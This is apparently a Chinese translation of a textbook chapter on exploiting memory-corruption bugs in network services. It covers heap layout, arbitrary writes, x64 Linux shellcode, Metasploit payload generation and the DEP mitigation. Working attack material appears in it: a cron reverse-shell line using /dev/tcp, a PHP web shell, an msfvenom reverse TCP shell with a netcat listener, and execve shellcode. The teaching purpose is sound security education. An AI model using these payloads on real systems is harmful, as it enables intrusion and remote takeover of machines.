大多数情况下，成功利用基于堆的漏洞的关键在于强制在可靠的位置进行适当的分配，因此，操控堆的布局非常重要。由于在各种平台上有大量不同的堆实现，我只能提供关于堆操控的通用规则。

应用程序的堆实现可能基于应用程序执行的平台的虚拟内存管理特性。例如，Windows 有 API 函数*VirtualAlloc*，它为当前进程分配一块虚拟内存。然而，使用操作系统虚拟内存分配器会引发一些问题：

**性能差** 每次分配和释放都需要操作系统切换到内核模式并再切换回用户模式。

**浪费的内存** 至少，虚拟内存分配是按页面级别进行的，通常至少为 4096 字节。如果你分配的内存小于页面大小，剩余的页面就会浪费。

由于这些问题，大多数堆实现只有在绝对必要时才调用操作系统服务。相反，它们会一次性分配一个较大的内存区域，然后实现用户级代码，将该较大的分配拆分成小块，以满足分配请求。

高效处理内存释放是一个进一步的挑战。一种简单的实现可能只是分配一个大的内存区域，然后每次分配时递增该区域中的指针，在请求时返回下一个可用的内存位置。这样是可行的，但几乎不可能释放那块内存：只有当所有子分配被释放后，较大的分配才能被释放。在一个长期运行的应用程序中，这种情况可能永远不会发生。

一种替代简单顺序分配的方法是使用*空闲链表*。空闲链表维护一个包含较大分配内部已释放分配的列表。当创建一个新的堆时，操作系统会创建一个大分配，其中空闲链表将包含一个大小与分配内存相同的已释放块。当发出分配请求时，堆的实现扫描空闲块列表，寻找一个足够大的空闲块以容纳该分配。然后实现将使用该空闲块，在起始位置分配请求的块，并更新空闲链表以反映新的空闲大小。

当一个块被释放时，实现可以将该块添加到空闲链表中。它还可以检查新释放的块前后是否也为空闲，并尝试将这些空闲块合并，以解决内存碎片问题。内存碎片发生在许多小的已分配块被释放后，将这些块返回可用内存供重用。然而，空闲链表条目仅记录它们各自的大小，因此，如果请求的分配大于空闲链表中的任何条目，实施可能需要进一步扩展操作系统分配的区域以满足请求。一个空闲链表的示例如图 10-6 所示。



*图 10-6：简单空闲链表实现示例*

使用这个堆实现，你应该能够看到如何获得一个适合利用基于堆的漏洞的堆布局。例如，假设你知道你将要溢出的堆块是 128 字节；你可以找到一个 C++对象，它的 VTable 指针至少和溢出的缓冲区大小一样。如果你强制应用程序分配大量这样的对象，它们将会在堆中按顺序分配。你可以选择性地释放其中一个对象（不管是哪个），然后很有可能，当你分配漏洞缓冲区时，它将会重用已释放的块。接着你可以执行堆缓冲区溢出，破坏已分配对象的 VTable，从而获得代码执行，如图 10-7 所示。



*图 10-7：分配内存缓冲区以确保正确布局*

在操作堆时，网络攻击中最大的挑战是对内存分配的控制有限。如果你在利用一个网页浏览器，你可以利用 JavaScript 轻松设置堆布局，但对于网络应用程序，这就更难了。一个寻找对象分配的好地方是在连接的创建中。如果每个连接都有一个 C++对象支撑，你可以通过简单地打开和关闭连接来控制分配。如果这种方法不适用，你几乎肯定需要利用网络协议中的命令来进行适当的分配。

##### **定义内存池分配**

作为使用任意自由列表的替代方法，你可以为不同的分配大小使用定义好的内存池，将较小的分配适当地分组。例如，你可以为 16 字节、64 字节、256 字节和 1024 字节的分配指定内存池。当请求发出时，系统将根据最接近请求大小且足够容纳分配的内存池来分配缓冲区。例如，如果你需要 50 字节的分配，它会进入 64 字节的池，而 512 字节的分配则会进入 1024 字节的池。任何大于 1024 字节的分配将使用另一种方法进行大规模分配。使用大小化的内存池可以减少小块分配导致的碎片问题。只要大小池中有空闲条目满足请求的内存，分配就会被满足，较大的分配也不会受到太多阻塞。

##### **堆内存存储**

与堆实现相关的最后一个话题是如何存储类似自由列表的信息。存储方法有两种。一种方法是将元数据（如块大小以及状态是空闲还是已分配）与已分配的内存一起存储，这称为*内带*（in-band）。另一种方法叫做*外带*（out-of-band），元数据存储在内存的其他地方。外带方法在许多方面更容易被利用，因为你不必担心在破坏连续内存块时恢复重要的元数据，尤其是当你不知道需要恢复哪些值以使元数据有效时，它特别有用。

#### ***任意内存写入漏洞***

内存损坏漏洞通常是通过模糊测试最容易发现的漏洞，但它们并不是唯一的漏洞类型，正如第九章所提到的。最有趣的漏洞是由于资源处理不当导致的任意文件写入。这种资源处理不当可能是由于允许你直接指定文件写入位置的命令，或者由于存在路径规范化漏洞的命令，使你能够指定相对于当前目录的位置。不管漏洞是如何表现的，知道需要写入文件系统哪些内容以获取代码执行是非常有用的。

内存的任意写入，虽然可能是应用程序实现中的一个直接错误，但也可能是另一个漏洞的副作用，例如堆缓冲区溢出。许多旧的堆内存分配器使用链表结构来存储空闲块列表；如果这个链表数据被破坏，任何对空闲列表的修改都可能导致一个值被写入攻击者提供的位置。

要利用任意内存写入漏洞，你需要修改一个可以直接控制执行的位置。例如，你可以瞄准内存中某个对象的 VTable 指针，并覆盖它以获得对执行的控制，就像处理其他破坏性漏洞的方法一样。

任意写入的一个优点是，它可以导致颠覆应用程序的逻辑。例如，考虑清单 107 中显示的网络应用程序。它的逻辑在创建连接时创建一个内存结构，用于存储有关连接的重要信息，如使用的网络套接字以及用户是否经过身份验证为管理员。

```
struct Session {
    int socket;
    int is_admin;
};

Session* session = WaitForConnection();
```

*清单 10-7：一个简单的连接会话结构*

对于这个例子，我们假设一些代码检查会判断会话是否为管理员会话，这将只允许执行某些任务，如更改系统配置。如果你在会话中被认证为管理员，系统中会有直接的命令可以执行本地 shell 命令，如清单 10-8 所示。

```
Command c = ReadCommand(session->socket);
if (c.command == CMD_RUN_COMMAND
    && session->is_admin) {
  system(c->data);
}
```

*清单 10-8：以管理员身份打开`run`命令*

通过发现会话对象在内存中的位置，你可以将`is_admin`值从`0`更改为`1`，从而打开`run`命令，让攻击者获得对目标系统的控制。我们还可以更改`socket`值，使其指向另一个文件，这会导致应用程序在写入响应时将数据写入任意文件，因为在大多数类似 Unix 的系统中，文件描述符和套接字实际上是同类型的资源。你可以使用`write`系统调用像写入套接字一样写入文件。

虽然这是一个人为构造的例子，但它应该能帮助你理解在现实世界中的网络应用程序发生了什么。对于任何使用某种身份验证机制来区分用户和管理员职责的应用程序，你通常可以通过这种方式颠覆安全系统。

##### **利用高权限文件写入**

如果应用程序以提升的权限运行，如 root 或管理员权限，你在利用任意文件写入时的选择将更加广泛。一种技术是覆盖你知道会被执行的可执行文件或库，例如运行你正在利用的网络服务的可执行文件。许多平台提供其他执行代码的方式，例如定时任务或 Linux 上的`cron`作业。

如果你拥有高权限，你可以将自己的 `cron` 任务写入某个目录并执行它们。在现代 Linux 系统中，通常在 */etc* 目录下已经有多个 `cron` 目录，你可以将任务写入这些目录，每个目录的后缀表示任务的执行时间。然而，写入这些目录需要你赋予脚本文件可执行权限。如果你的任意文件写入操作仅提供读写权限，你需要将文件写入到 */etc/cron.d* 目录并使用 Crontab 文件来执行任意系统命令。Listing 10-9 展示了一个简单的 Crontab 文件示例，它每分钟执行一次并将一个 shell 进程连接到任意主机和 TCP 端口，你可以通过该连接访问系统命令。

```
* * * * * root /bin/bash -c '/bin/bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'
```

*Listing 10-9：一个简单的反向 shell Crontab 文件*

这个 Crontab 文件必须写入到 */etc/cron.d/run_shell*。请注意，某些版本的 bash 不支持这种反向 shell 语法，因此你可能需要使用其他方法，比如 Python 脚本，来实现相同的效果。现在让我们来看看如何利用低权限文件写入漏洞。

##### **利用低权限文件写入**

如果你在写入时没有高权限，情况并非完全无望；然而，你的选择会更有限，你仍然需要了解系统中可以利用的资源。例如，如果你正在尝试利用一个 web 应用程序，或者机器上安装了 web 服务器，可能有机会放置一个服务器端渲染的网页，然后通过 web 服务器访问它。许多 web 服务器也会安装 PHP，这使你能够作为 web 服务器用户执行命令，并通过将 Listing 10-10 中显示的文件写入 web 根目录（它可能位于 */var/www/html* 或其他多个位置）并使用 *.php* 扩展名来返回命令的执行结果。

```
<?php
if (isset($_REQUEST['exec'])) {
  $exec = $_REQUEST['exec'];
  $result = system($exec);
  echo $result;
}
?>
```

*Listing 10-10：一个简单的 PHP shell*

在你将这个 PHP shell 文件放到 web 根目录后，你可以通过请求类似 *http://server/shell.php?exec=CMD* 的 URL，在 web 服务器的上下文中执行系统上的任意命令。该 URL 会导致 PHP 代码在服务器上执行：PHP shell 会从 URL 中提取 `exec` 参数并将其传递给系统 API，执行任意命令 `CMD` 并返回结果。

PHP 的另一个优点是，当文件被写入时，文件中其他内容并不重要：PHP 解析器会查找 `<?php … ?>` 标签，并执行这些标签内的任何 PHP 代码，而不管文件中还有什么其他内容。当你在利用漏洞时无法完全控制写入文件的内容时，这一特性非常有用。

### **编写 Shell 代码**

现在让我们来看一下如何开始编写自己的 shell 代码。使用这些 shell 代码，你可以在利用你发现的内存损坏漏洞的应用程序上下文中执行任意命令。

编写你自己的 shell 代码可能很复杂，虽然我无法在本章的剩余部分充分讲解它，但我会提供一些示例，供你在继续研究该主题时使用。我将从一些基本技巧和编写 x64 代码的挑战开始，使用 Linux 平台进行编写。

#### ***开始使用***

要开始编写 shell 代码，你需要以下工具：

• 安装 Linux x64。

• 一个编译器；GCC 和 CLANG 都适用。

• *Netwide Assembler (NASM)*的副本；大多数 Linux 发行版都提供该软件包。

在 Debian 和 Ubuntu 上，以下命令应安装你所需的所有工具：

```
sudo apt-get install build-essential nasm
```

我们将用 x64 汇编语言编写 shell 代码，并使用`nasm`进行汇编，这是一个二进制汇编器。汇编你的 shell 代码应该会生成一个仅包含你指定的机器指令的二进制文件。为了测试你的 shell 代码，你可以使用用 C 编写的清单 10-11 作为测试工具。

test_shellcode.c

```
 #include <fcntl.h>
 #include <stdio.h>
 #include <stdlib.h>
 #include <sys/mman.h>
 #include <sys/stat.h>
 #include <unistd.h>

 typedef int (*exec_code_t)(void);

 int main(int argc, char** argv) {
   if (argc < 2) {
     printf("Usage: test_shellcode shellcode.bin\n");
     exit(1);
   }

➊ int fd = open(argv[1], O_RDONLY);
   if (fd <= 0) {
     perror("open");
     exit(1);
   }

   struct stat st;
   if (fstat(fd, &st) == -1) {
     perror("stat");
     exit(1);
   }

➋ exec_code_t shell = mmap(NULL, st.st_size,
  ➌ PROT_EXEC | PROT_READ, MAP_PRIVATE, fd, 0);
 if (shell == MAP_FAILED) {
     perror("mmap");
     exit(1);
   }

   printf("Mapped Address: %p\n", shell);
   printf("Shell Result: %d\n", shell());

   return 0;
 }
```

*清单 10-11：一个 shell 代码测试工具*

这段代码从命令行获取一个路径➊，然后将其映射到内存中，作为内存映射文件➋。我们使用`PROT_EXEC`标志指定代码是可执行的➌；否则，各种平台级的漏洞缓解措施可能会阻止 shell 代码的执行。

使用已安装的 C 编译器通过在 shell 中执行以下命令来编译测试代码。在编译过程中你应该不会看到任何警告。

```
$ cc –Wall –o test_shellcode test_shellcode.c
```

要测试代码，将以下汇编代码放入文件*shellcode.asm*中，如清单 10-12 所示。

```
; Assemble as 64 bit
BITS 64
mov rax, 100
ret
```

*清单 10-12：一个简单的 shell 代码示例*

清单 10-12 中的 shell 代码简单地将值`100`移动到 RAX 寄存器。RAX 寄存器用于函数调用的返回值。测试工具会像调用函数一样调用这段 shell 代码，因此我们期望 RAX 寄存器的值被返回给测试工具。然后，shell 代码立即发出`ret`指令，跳回到调用者，即本例中的测试工具。如果成功，测试工具应打印返回值`100`。

让我们试试吧。首先，我们需要使用`nasm`汇编 shell 代码，然后在测试工具中执行它：

```
$ nasm -f bin -o shellcode.bin shellcode.asm
$ ./test_shellcode shellcode.bin
Mapped Address: 0x7fa51e860000
Shell Result: 100
```

输出返回`100`到测试工具，验证我们成功加载并执行了 shell 代码。还值得验证生成的二进制文件中的汇编代码是否与我们预期的一致。我们可以使用配套的`ndisasm`工具来检查这一点，它能反汇编这个简单的二进制文件，而无需使用如 IDA Pro 这样的反汇编器。我们需要使用`-b 64`开关，以确保`ndisasm`使用 64 位反汇编，如下所示：

```
$ ndisasm -b 64 shellcofe.bin
00000000  B864000000        mov eax,0x64
00000005  C3                ret
```

`ndisasm` 的输出应与我们在原始 Shell 代码文件中指定的指令相匹配，见清单 10-12。注意，我们在 `mov` 指令中使用了 RAX 寄存器，但在反汇编器输出中看到的是 EAX 寄存器。汇编器使用这个 32 位寄存器而不是 64 位寄存器，因为它意识到常数 `0x64` 可以适配为 32 位常数，因此可以使用更短的指令，而不必加载完整的 64 位常数。这并不会改变代码的行为，因为当将常数加载到 EAX 中时，处理器会自动将 RAX 寄存器的上 32 位设置为零。`BITS` 指令也缺失了，因为它是 `nasm` 汇编器的指令，用于启用 64 位支持，而在最终的汇编输出中不需要它。

#### ***简单调试技巧***

在你开始编写更复杂的 Shell 代码之前，让我们先看一种简单的调试方法。这在测试完整的漏洞利用代码时非常重要，因为可能很难在你想要的精确位置停止 Shell 代码的执行。我们将使用 `int3` 指令在 Shell 代码中添加一个断点，这样当相关代码被调用时，任何附加的调试器都会收到通知。

修改清单 10-12 中的代码，按照清单 10-13 所示添加 `int3` 断点指令，然后重新运行 `nasm` 汇编器。

```
# Assemble as 64 bit
BITS 64
int3
mov rax, 100
ret
```

*清单 10-13：带断点的简单 Shell 代码示例*

如果你在调试器中执行测试工具，例如 GDB，输出应与清单 10-14 类似。

```
   $ gdb --args ./test_shellcode shellcode.bin
   GNU gdb 7.7.1
   ...
   (gdb) display/1i $rip
   (gdb) r
   Starting program: /home/user/test_shellcode debug_break.bin
   Mapped Address: 0x7fb6584f3000

➊ Program received signal SIGTRAP, Trace/breakpoint trap.
 0x00007fb6584f3001 in ?? ()
   1: x/i $rip
➋ => 0x7fb6584f3001:      mov    $0x64,%eax
   (gdb) stepi
   0x00007fb6584f3006 in ?? ()
   1: x/i $rip
   => 0x7fb6584f3006:      retq
   (gdb)
   0x00000000004007f6 in main ()
   1: x/i $rip
   => 0x4007f6 <main+281>: mov    %eax,%esi
```

*清单 10-14：在 Shell 上设置断点*

当我们执行测试工具时，调试器会在 `SIGTRAP` 信号 ➊ 上停下。原因是处理器执行了 `int3` 指令，它充当一个断点，导致操作系统向调试器处理的进程发送了 `SIGTRAP` 信号。注意，当我们打印程序当前正在执行的指令 ➋ 时，看到的并不是 `int3` 指令，而是紧接着的 `mov` 指令。我们没有看到 `int3` 指令，因为调试器已经自动跳过了它，以允许程序继续执行。

#### ***调用系统调用***

清单 10-12 中的示例 Shell 代码只返回值 100 给调用者，在这个例子中是我们的测试工具，这对于利用漏洞并不是很有用；为此，我们需要让系统为我们做一些工作。在 Shell 代码中，最简单的方式是使用操作系统的系统调用。系统调用是通过操作系统定义的系统调用编号来指定的。它允许你调用一些基本的系统功能，例如打开文件和执行新进程。

使用系统调用比调用系统库更简单，因为你不需要知道其他可执行代码（如系统 C 库）的内存位置。无需知道库的位置使得你的 shell 代码更易编写，并且在不同版本的操作系统之间更具可移植性。

然而，使用系统调用也有缺点：它们通常实现比系统库更低级的功能，使得调用起来更加复杂，正如你将看到的那样。这在 Windows 上尤其如此，因为 Windows 的系统调用非常复杂。但就我们的目的而言，系统调用足以演示如何编写你自己的 shell 代码。

系统调用有其定义的应用程序二进制接口（ABI）（有关更多细节，请参见“应用程序二进制接口”和第 123 页）。在 x64 Linux 中，使用以下 ABI 执行系统调用：

• 系统调用的编号放在 RAX 寄存器中。

• 最多可以通过 RDI、RSI、RDX、R10、R8 和 R9 寄存器向系统调用传递六个参数。

• 系统调用通过`syscall`指令发出。

• 系统调用的结果在`syscall`指令返回后存储在 RAX 中。

要了解有关 Linux 系统调用过程的更多信息，可以在 Linux 命令行中运行`man 2 syscall`。此页面包含描述系统调用过程的手册，并定义了各种不同架构的 ABI，包括 x86 和 ARM。此外，`man 2 syscalls`列出了所有可用的系统调用。你还可以通过运行`man 2 <系统调用名称>`来阅读每个系统调用的单独页面。

##### **exit 系统调用**

要使用系统调用，我们首先需要知道系统调用的编号。让我们以`exit`系统调用为例。

我们如何找到特定系统调用的编号呢？Linux 附带了头文件，定义了当前平台的所有系统调用编号，但尝试在磁盘上找到正确的头文件就像是在追逐自己的尾巴。相反，我们让 C 编译器为我们做这件事。编译列表 10-15 中的 C 代码并执行它，打印出`exit`系统调用的系统调用编号。

```
#include <stdio.h>
#include <sys/syscall.h>

int main() {
  printf("Syscall: %d\n", SYS_exit);
  return 0;
}
```

*列表 10-15：获取系统调用编号*

在我的系统上，`exit` 的系统调用号是 60，这会打印到我的屏幕上；根据你使用的 Linux 内核版本，它可能会不同，尽管这些数字变化并不频繁。`exit` 系统调用特别需要传递一个进程退出代码作为唯一参数，以便返回操作系统并指示进程为何退出。因此，我们需要将用于进程退出代码的数字传递给 RDI 寄存器。Linux ABI 规范指定，系统调用的第一个参数应通过 RDI 寄存器传递。`exit` 系统调用不会从内核返回任何内容；相反，进程（即 shell）会立即终止。让我们实现 `exit` 调用。使用 `nasm` 汇编列表 10-16，并在测试工具中运行它。

```
BITS 64
; The syscall number of exit
mov rax, 60
; The exit code argument
mov rdi, 42
syscall
 ; exit should never return, but just in case.
ret
```

*列表 10-16：在 shell 代码中调用 `exit` 系统调用*

请注意，列表 10-16 中的第一个打印语句，显示了 shell 代码加载的位置，仍然会打印出来，但随后用于返回 shell 代码的打印语句则不会显示。这表明 shell 代码已经成功调用了 `exit` 系统调用。为了再次确认，你可以在 shell 中通过 `echo $?` 查看测试工具的退出代码，例如在 bash 中。退出代码应该是 42，这就是我们在 `mov rdi` 参数中传递的值。

##### **write 系统调用**

现在让我们尝试调用 `write`，一个稍微复杂一些的系统调用，它将数据写入文件。使用以下语法调用 `write` 系统调用：

```
ssize_t write(int fd, const void *buf, size_t count);
```

`fd` 参数是要写入的文件描述符。它包含一个整数值，表示你想要访问的文件。接着你通过将缓冲区指向数据位置来声明要写入的数据。你可以使用 `count` 来指定写入多少字节。

使用列表 10-17 中的代码，我们将把值 1 传递给 `fd` 参数，它是控制台的标准输出。

```
BITS 64

%define SYS_write 1
%define STDOUT 1

_start:
  mov rax, SYS_write
; The first argument (rdi) is the STDOUT file descriptor
  mov rdi, STDOUT
; The second argument (rsi) is a pointer to a string
  lea rsi, [_greeting]
; The third argument (rdx) is the length of the string to write
  mov rdx, _greeting_end - _greeting
; Execute the write system call
  syscall
  ret

_greeting:
  db "Hello User!", 10
_greeting_end:
```

*列表 10-17：在 shell 代码中调用 `write` 系统调用*

通过写入标准输出，我们将把 `buf` 中指定的数据打印到控制台，以便我们能看到是否成功。如果成功，字符串 `Hello User!` 应该会打印到测试工具运行的 shell 控制台上。`write` 系统调用还应该返回写入文件的字节数。

现在使用 `nasm` 汇编列表 10-17，并在测试工具中执行该二进制文件：

```
$ nasm -f bin -o shellcode.bin shellcode.asm
$ ./test_shellcode shellcode.bin
Mapped Address: 0x7f165ce1f000
Shell Result: -14
```

但我们并没有看到预期中的`Hello User!`问候语，而是得到了一个奇怪的结果，`-14`。任何来自`write`系统调用的返回值小于零都表示发生了错误。在类 Unix 系统中，包括 Linux，定义了一组错误码（缩写为`errno`）。该错误码在系统中是正值，但返回时为负值，以表示这是一个错误状态。你可以在系统 C 头文件中查找错误码，但示例 10-18 中的简短 Python 脚本就能为我们完成这项工作。

```
import os

# Specify the positive error number
err = 14
print os.errno.errorcode[err]
# Prints 'EFAULT'
print os.strerror(err)
# Prints 'Bad address'
```

*示例 10-18：一个简单的 Python 脚本，用于打印错误码*

运行脚本将打印出错误码名称`EFAULT`，并且字符串描述为`Bad address`。这个错误码表示系统调用试图访问一些无效的内存，导致了内存故障。我们传递的唯一内存地址是指向问候语的指针。让我们看看反汇编代码，找出我们传递的指针是否存在问题：

```
00000000  B801000000        mov rax,0x1
00000005  BF01000000        mov rdi,0x1
0000000A  488D34251A000000  lea rsi,[0x1a]
00000012  BA0C000000        mov rdx,0xc
00000017  0F05              syscall
00000019  C3                ret
0000001A  db "Hello User!", 10
```

现在我们可以看到代码中的问题：`lea`指令加载问候语的地址时，加载了绝对地址 0x1A。但如果你查看我们到目前为止所做的测试执行，加载可执行代码的地址并不在 0x1A 或其附近。Shell 代码加载位置和绝对地址之间的不匹配导致了问题。我们不能总是提前确定 Shell 代码将在哪个位置加载到内存中，因此我们需要一种方式来相对于当前执行位置引用问候语。让我们来看看如何在 32 位和 64 位 x86 处理器上做到这一点。

##### **在 32 位和 64 位系统上访问相对地址**

在 32 位 x86 模式下，获取相对地址的最简单方法是利用`call`指令支持相对地址这一事实。当`call`指令执行时，它将随后的指令的绝对地址压入栈中作为返回地址。我们可以使用这个绝对返回地址值来计算当前 Shell 代码的执行位置，并调整问候语的内存地址以匹配。例如，将示例 10-17 中的`lea`指令替换为以下代码：

```
call _get_rip
_get_rip:
; Pop return address off the stack
pop rsi
; Add relative offset from return to greeting
add rsi, _greeting - _get_rip
```

使用相对`call`效果很好，但它会大大增加代码的复杂性。幸运的是，64 位指令集引入了相对数据寻址。我们可以通过在地址前添加`rel`关键字，在`nasm`中访问这一功能。通过如下更改`lea`指令，我们可以访问相对于当前执行指令的问候地址：

```
lea rsi, [rel _greeting]
```

现在我们可以通过这些更改重新组装我们的 Shell 代码，并且消息应该能成功打印：

```
$ nasm -f bin -o shellcode.bin shellcode.asm
$ ./test_shellcode shellcode.bin
Mapped Address: 0x7f165dedf000
Hello User!
Shell Result: 12
```

#### ***执行其他程序***

让我们通过执行另一个二进制文件来总结一下系统调用的概述，使用 `execve` 系统调用执行另一个二进制文件。这是一种常见的技术，用于在目标系统上获得执行权限，而且不需要长而复杂的 shell 代码。`execve` 系统调用需要三个参数：要运行的程序的路径，一个以 `NULL` 结束的命令行参数数组，以及一个以 `NULL` 结束的环境变量数组。调用 `execve` 比调用简单的系统调用（如 `write`）需要做更多的工作，因为我们需要在栈上构建这些数组；但其实并不困难。清单 10-19 通过传递 `-a` 参数来执行 `uname` 命令。

execve.asm

```
 BITS 64

 %define SYS_execve 59

 _start:
   mov rax, SYS_execve
 ; Load the executable path
➊ lea rdi, [rel _exec_path]
 ; Load the argument
   lea rsi, [rel _argument]
 ; Build argument array on stack = { _exec_path, _argument, NULL }
➋ push 0
   push rsi
   push rdi
➌ mov rsi, rsp
 ; Build environment array on stack = { NULL }
   push 0
➍ mov rdx, rsp
➎ syscall
 ; execve shouldn't return, but just in case
   ret

 _exec_path:
   db "/bin/uname", 0
 _argument:
   db "-a", 0
```

*清单 10-19：在 shell 代码中执行任意可执行文件*

清单 10-19 中的 shell 代码很复杂，我们来一步步解析。首先，`"/bin/uname"` 和 `"-a"` 两个字符串的地址被加载到寄存器中 ➊。接着，这两个字符串的地址以及最终的 NUL（表示为 0）被反向顺序推入栈中 ➋。代码将当前栈地址复制到 RSI 寄存器，这是系统调用的第二个参数 ➌。然后，一个 NUL 被推入栈中作为环境变量数组，栈中的地址被复制到 RDX 寄存器 ➍，这是系统调用的第三个参数。RDI 寄存器已经包含了 `"/bin/uname"` 字符串的地址，因此我们的 shell 代码在调用系统调用之前无需重新加载该地址。最后，我们执行 `execve` 系统调用 ➎，它执行相当于以下 C 代码的 shell：

```
char* args[] = { "/bin/uname",  "-a", NULL };
char* envp[] = { NULL };
execve("/bin/uname", args, envp);
```

如果你组装了 `execve` 的 shell 代码，你应该能看到类似以下的输出，其中命令行 `/bin/uname -a` 被执行：

```
$ nasm -f bin -o execve.bin execve.asm
$ ./test_shellcode execv.bin
 Mapped Address: 0x7fbdc3c1e000
Linux foobar 4.4.0 Wed Dec 31 14:42:53 PST 2014 x86_64 x86_64 x86_64 GNU/Linux
```

#### ***使用 Metasploit 生成 Shell 代码***

写自己的 shell 代码是很有价值的，可以帮助你更深入地理解它。然而，由于人们已经写了很长时间的 shell 代码，网上已经有很多可以用于不同平台和用途的 shell 代码。

Metasploit 项目是一个有用的 shell 代码库。Metasploit 允许你将 shell 代码生成成二进制数据块，方便直接插入到自己的漏洞利用中。使用 Metasploit 有很多优点：

• 通过移除禁止字符或格式化处理来避免检测，从而处理 shell 代码的编码问题

• 支持多种执行方式，包括简单的反向 shell 和执行新的二进制文件

• 支持多平台（包括 Linux、Windows 和 macOS）以及多架构（如 x86、x64 和 ARM）

我不会详细解释如何构建 Metasploit 模块或使用它们的分阶段 shell 代码，因为这需要使用 Metasploit 控制台与目标交互。相反，我将使用一个简单的反向 TCP shell 示例，向你展示如何使用 Metasploit 生成 shell 代码。（回想一下，反向 TCP shell 允许目标机器通过监听端口与攻击者的机器进行通信，攻击者可以利用该端口获得执行权限。）

##### **访问 Metasploit 有效载荷**

`msfvenom` 命令行工具与 Metasploit 一起安装，它提供对 Metasploit 中内置的各种 shell 代码有效载荷的访问。我们可以使用 `-l` 选项列出支持的 x64 Linux 有效载荷，并筛选输出：

```
# msfvenom -l | grep linux/x64
--snip--
linux/x64/shell_bind_tcp    Listen for a connection and spawn a command shell
linux/x64/shell_reverse_tcp Connect back to attacker and spawn a command shell
```

我们将使用两种 shell 代码：

`shell_bind_tcp` 绑定到 TCP 端口并在连接时打开本地 shell

`shell_reverse_tcp` 尝试通过附加 shell 连接回你的机器

这两种有效载荷应该可以与简单工具（如 Netcat）一起使用，通过连接到目标系统或在本地系统上监听来工作。

##### **构建反向 Shell**

在生成 shell 代码时，必须指定监听端口（用于绑定和反向 shell）和监听 IP（对于反向 shell，这是你机器的 IP 地址）。这些选项通过分别传递 `LPORT=port` 和 `LHOST=IP` 来指定。我们将使用以下代码构建一个反向 TCP shell，它将连接到主机 172.21.21.1 的 TCP 端口 4444：

```
# msfvenom -p linux/x64/shell_reverse_tcp -f raw LHOST=172.21.21.1\
           LPORT=4444 > msf_shellcode.bin
```

`msfvenom` 工具默认将 shell 代码输出到标准输出，因此你需要将其管道传输到一个文件中；否则，它只会打印到控制台并丢失。我们还需要指定 `-f raw` 标志，以将 shell 代码输出为原始二进制 Blob。也有其他潜在选项。例如，你可以将 shell 代码输出到一个小的 .*elf* 可执行文件中，直接运行进行测试。由于我们有测试环境，所以无需这样做。

##### **执行有效载荷**

为了执行有效载荷，我们需要设置一个在端口 4444 上监听的 `netcat` 实例（例如，`nc -l 4444`）。当连接建立时，可能不会看到提示符。然而，输入 `id` 命令应该会回显结果：

```
$ nc -l 4444
# Wait for connection
id
uid=1000(user) gid=1000(user) groups=1000(user)
```

结果显示 shell 成功在运行 shell 代码的系统上执行了 `id` 命令，并打印了系统的用户和组 ID。你可以在 Windows、macOS 甚至 Solaris 上使用类似的有效载荷。自己探索 `msfvenom` 中的各种选项可能会很有价值。

### **内存破坏利用缓解措施**

在《利用内存破坏漏洞》中的第 246 页，我提到了利用防护措施，以及它们如何使利用内存漏洞变得困难。事实是，由于编译器（以及生成的应用程序）和操作系统中添加了利用防护措施，在大多数现代平台上，利用内存破坏漏洞可能变得相当复杂。

安全漏洞似乎是软件开发中不可避免的一部分，就像大量使用内存不安全语言编写的源代码，这些代码长时间未得到更新。因此，内存破坏漏洞不太可能在一夜之间消失。

开发者没有尝试修复所有这些漏洞，而是实施了巧妙的技术来减轻已知安全漏洞的影响。具体而言，这些技术旨在使内存破坏漏洞的利用变得困难，或者理想情况下使其变得不可能。在本节中，我将描述一些在当代平台和开发工具中使用的利用防护技术，这些技术使攻击者更难利用这些漏洞。

#### ***数据执行保护***

正如你之前看到的，开发利用程序的主要目标之一是获得对指令指针的控制。在我之前的解释中，我略过了将 shell 代码放入内存并执行时可能遇到的问题。在现代平台上，由于*数据执行保护（DEP）*或*不执行（NX）*的防护措施，你不太可能像之前那样轻松地执行任意的 shell 代码。

DEP（数据执行保护）尝试通过要求操作系统特别分配可执行指令的内存来缓解内存破坏的利用。这需要处理器支持，使得如果进程试图在未标记为可执行的地址处执行内存，处理器会触发错误。操作系统随后会终止该进程以防止进一步执行。

执行不可执行内存导致的错误可能很难察觉，并且一开始看起来会让人困惑。几乎所有平台都会将错误错误报告为 `Segmentation fault` 或 `Access violation`，即使它看起来是潜在合法的代码。你可能会误以为这个错误是指令试图访问无效内存。由于这种混淆，你可能会花时间调试代码，试图找出为什么 shell 代码没有正确执行，认为这是代码中的 bug，而实际上是触发了 DEP。例如，清单 10-20 展示了一个 DEP 崩溃的示例。

```
GNU gdb 7.7.1
(gdb) r
Starting program: /home/user/triage/dep

Program received signal SIGSEGV, Segmentation fault.
0xbffff730 in ?? ()

(gdb) x/3i $pc
=> 0xbffff730:  push   $0x2a➊
   0xbffff732:  pop    %eax
   0xbffff733:  ret
```

*清单 10-20：执行不可执行内存时的崩溃示例*

确定崩溃的源头是很棘手的。乍一看，你可能认为是因为无效的栈指针，因为在 ➊ 处的 push 指令会导致相同的错误。只有通过查看指令所在的位置，你才能发现它在执行不可执行的内存。你可以通过使用表 10-8 中描述的内存映射命令来确定它是否在可执行内存中。

在许多情况下，DEP 非常有效地防止了内存破坏漏洞的轻松利用，因为平台开发人员可以轻松地将可执行内存限制为特定的可执行模块，使堆或栈等区域不可执行。然而，以这种方式限制可执行内存确实需要硬件和软件的支持，这使得软件因人为错误而容易受到攻击。例如，在利用一个简单的网络连接设备时，可能是因为开发人员没有启用 DEP，或者他们使用的硬件不支持 DEP。

